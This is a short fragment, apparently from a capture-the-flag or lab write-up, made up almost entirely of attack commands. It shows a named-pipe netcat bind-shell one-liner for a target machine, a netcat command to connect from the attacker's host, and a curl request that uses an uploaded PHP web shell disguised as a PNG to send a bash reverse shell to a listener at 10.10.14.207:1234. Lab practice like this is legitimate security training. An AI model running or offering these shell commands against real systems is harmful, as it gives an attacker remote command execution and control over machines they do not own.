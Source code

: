 On the target machine run 

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l {ip attacking box} {some port} > /tmp/f
```

On your host machine run

```
nc -nv {ip attacking box} {some port}
```

A `curl` sent locally, which executes the command `bash` on the victim ip, which redirects back to our local listener on port `1234`.

```
curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.207/1234 0>&1"' http://10.129.113.34/uploads/10_10_14_207.php.png
```

